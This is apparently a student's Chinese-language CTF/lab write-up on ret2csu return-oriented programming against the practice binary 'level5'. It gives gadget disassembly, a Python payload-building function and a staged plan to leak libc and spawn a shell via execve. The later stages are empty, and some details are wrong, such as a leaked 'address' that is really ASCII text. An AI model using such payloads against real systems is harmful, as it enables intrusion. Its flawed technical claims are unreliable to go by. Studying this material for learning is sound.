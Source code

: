 * 简介
选择中级 ROP 里的 ret2csu 。

* 思路
主要利用的是 libc 里的 libc_csu_init 函数，这个函数是用来初始化 libc 的，并且方便反弹 shell 的 system 和 execve 等函数都在 libc 里，且大部分应用程序都会调用 libc 里的函数。

所以最基本的思路就是通过 target 里调用的 libc 函数来定位到 libc 里其他函数的地址，比如 execve ，之后再构造需要反弹的 shell 之类的参数，通过栈移出到 ret_addr 那里来执行。

* 设计

** __libc_csu_init 函数的利用
查阅资料得知，该函数有一段代码可以设置 x86_64 中三个用于传递参数的寄存器 rsi rdx 和  rdi ，在 level5 这个 elf 文件中，该代码片段如下：
#+BEGIN_SRC
0x00400600      4c89ea         mov rdx, r13      ; 将r13的值（原来的arg3）复制到rdx
0x00400603      4c89f6         mov rsi, r14      ; 将r14的值（原来的arg2）复制到rsi
0x00400606      4489ff         mov edi, r15d     ; 将r15d的值（原来的arg1）复制到edi
0x00400609      41ff14dc       call qword [r12 + rbx*8] ; 通过[r12 + rbx*8]计算得到的地址调用函数，rbx是索引，每次迭代增加8
0x0040060d      4883c301       add rbx, 1        ; 将rbx加1，指向下一个函数指针
0x00400611      4839eb         cmp rbx, rbp      ; 比较rbx和rbp，检查是否已经遍历了整个数组
0x00400614      75ea           jne 0x400600      ; 如果rbx < rbp，意味着还没调用完所有函数，跳回0x400600继续循环
#+END_SRC

** payload 构造基本思路

查看 vulnerable 函数如下，其中缓冲区大小为128，但是 read 的参数为0x200, 是512，明显比分配的缓冲区要大，所以通过向这个 read 函数输入构造的 payload 来实现攻击。

#+BEGIN_IMAGE
[[file:writeup/20231104_133920.png]]
#+END_IMAGE

通过查看汇编代码，发现缓冲区地址为 ~rbp-0x80~ 。

#+BEGIN_IMAGE
[[file:writeup/20231104_135704.png]]
#+END_IMAGE

因此 payload 的构造需要先填充这128和 rdp 的位置 ~p64(0x00*136)~ 。

之后，查看 __libc_csu_init 中可以利用的 gadget 为 0x0040061a ，于是 payload 的下一步为 ~p64(0x0040061a)~

#+BEGIN_IMAGE
[[file:writeup/20231104_152237.png]]
#+END_IMAGE

之后就是填充栈的地址，完成 rbx rbp ret 关键数据的填充。

再之后就是需要 ret 的地址，开始执行代码，这里是 ret 到 ~call qword [r12 + rbx*8]~ 这一行进行 call 操作。

call 操作完成后，ret 会返回到原来的指令，如下：

#+BEGIN_IMAGE
[[file:writeup/20231104_161424.png]]
#+END_IMAGE

算上 ret 共弹出了 7*8 个字节，所以需要一个 56 字节的填充数据。

最后返回 main 函数方便下一步操作。

所以一个 libc_csu_init 的利用函数如下 (GPT 辅助生成的):

#+BEGIN_SRC python
  def craft_ret2csu_payload(buf_size, csu_gadget_addr, func_gadget_addr, func_to_call, rdi, rsi, rdx, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0, extra_padding=b'', next_func_addr=None):
      """
      Craft a ret2csu payload to control the registers and call a function.

      :param buf_size: The size of the buffer before the return address.
      :param csu_gadget_addr: The address of the csu gadget.
      :param func_gadget_addr: The address of the function call gadget.
      :param func_to_call: The function to call, usually GOT entry of a function.
      :param rdi: The value to set in RDI before the function call.
      :param rsi: The value to set in RSI before the function call.
      :param rdx: The value to set in RDX before the function call.
      :param rbx: The value to set in RBX, if needed for the csu gadget.
      :param rbp: The value to set in RBP, if needed for the csu gadget.
      :param r12: The value to set in R12, which should be the function to call minus the offset.
      :param r13: The value to set in R13 (RDI).
      :param r14: The value to set in R14 (RSI).
      :param r15: The value to set in R15 (RDX).
      :param extra_padding: Any extra padding if needed after the csu gadgets.
      :param next_func_addr: The address to return to after the function call (e.g., main).
      :return: The constructed payload.
      """
      from pwn import p64

      # Create padding to reach the return address
      payload = b"A" * buf_size

      # Add the csu_gadget_addr
      payload += p64(csu_gadget_addr)

      # Setup values for the CSU gadget
      # It's important to note that the actual registers are not yet set. This is simply putting values on the stack
      # that will be popped into registers by the CSU gadget.
      payload += p64(rbx)
      payload += p64(rbp)
      payload += p64(r12) # This will be the location to call, plus the appropriate offset
      payload += p64(r13) # Becomes RDI
      payload += p64(r14) # Becomes RSI
      payload += p64(r15) # Becomes RDX

      # Add the func_gadget_addr which will call the function [r12+rbx*8]
      payload += p64(func_gadget_addr)

      # Add extra padding if necessary to align the stack correctly
      payload += extra_padding

      # Finally, add the address of the function to call if necessary
      if next_func_addr:
          payload += p64(next_func_addr)

      return payload

#+END_SRC

询问 GPT 得到以下的栈布局结构：

#+BEGIN_IMAGE
[[file:writeup/20231104_132341.png]]
#+END_IMAGE

** 获取 libc.so 的版本
获取 libc 版本前需要先分清楚一个函数的真实地址和其在 libc.so 中的地址的区别。

+ libc.so 中的地址：就是函数在 libc.so 中的地址，这个地址是不变的。
+ 真实地址：程序执行时，函数在内存中的地址，程序基址+偏移量。

由此，通过程序执行时 csu 的利用，可以获得一个函数在 libc.so 中的地址，由此确定 libc.so 的版本号和在程序中的地址，进一步确定目标函数 (如execve, system) 等函数的具体地址。

通过反编译 level5 这个程序可以看出，它使用了 write 和 read 两个函数。

#+BEGIN_IMAGE
[[file:writeup/20231103_153707.png]]
#+END_IMAGE

#+BEGIN_IMAGE
[[file:writeup/20231103_153742.png]]
#+END_IMAGE

于是可以通过这两个函数的地址来确定 libc 的版本等信息。


* 流程

基本流程如下：

1. 第一次利用 csu ，获取 write 相对 GTO 的地址偏移量，确定 libc 的版本，从而获取 execve 的地址偏移量。
2. 第二次利用 csu ，把 execve 地址和 "/bin/sh"  写入 .bss 段。
3. 最后一次利用 csu ，执行 execve 反弹 shell ，完成 ROP 利用。

** 第一次利用
需要执行的目标函数 :write ，输出 write 在内存中的地址偏移量，并以此找到 libc 的版本。

因此各个寄存器数据填充为：
1. rbx = 0 ; 为了计算 call qword [r12 + rbx*8] ，这里置为0
2. rbp = 1 ; 和 rbx 不一样，让下面的 jne 不跳转。
3. r12 = write.got ; call 指令所调用的地址，这里要把内存地址给 write 到标准输出，所以这个需要是 write.got
4. r13 = 1 ; write 的第一个参数，1 为标准输出
5. r14 = write.got ; write 函数的 GOT 地址
6. r15 = 8 ; wirte 函数的第三个参数，输出 8 个字节。
7. ret = main ; main 函数地址，返回到 main 继续执行，方便之后利用

构造完毕 payload 并进行利用之后得到 write 的 GOT 地址为 6278066737626506568，十六进制为 0x57202c6f6c6c6400.

在 [[https://libc.blukat.me/?q=write%3A400][libc database search]] 这个网站上搜索得到如下的结果：

#+BEGIN_IMAGE
[[file:writeup/20231104_213942.png]]
#+END_IMAGE

由于程序是 x64 的，所以直接锁定 libc 版本为 libc6-amd64_2.13-0ubuntu13.2_i386。

** 第二次利用

** 第三次利用

* tip

不能把静态调试的指令地址和实际执行的数据地址弄混，栈之类的数据都是运行时在内存里随机分配的，没法直接操作，并且向 r12 rbx 这种寄存器也是通过溢出所操作不了的，而 __libc_csu_init 能利用的原因就是因为上文提到的 gadget ，他从栈里弹数据写道寄存器里，这就给了我们操作的空间。

ret 指令：在 x64 机器中，弹出8个字节的数据，并作为地址返回开始执行上面的指令许列，这里的重点也是从栈上弹出地址，操作栈就可以劫持控制流。

* 工具
- radare2
